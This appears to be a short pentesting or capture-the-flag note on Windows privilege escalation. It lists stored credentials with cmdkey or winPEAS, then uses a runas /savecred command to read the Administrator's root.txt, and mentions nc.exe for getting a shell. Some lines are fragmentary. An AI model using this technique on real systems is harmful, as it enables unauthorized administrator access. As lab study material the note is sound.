 - **`cmdkey /list`** or from winPEAS [[Internal Enumeration]]
- Note:- Sometimes it does not

# Command:
---
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"`

**==Note:- Sometimes, it just does not work, we must try other things like executing a command directly or getting a shell using nc.exe ==**

![[Pasted image 20250416163024.png]]
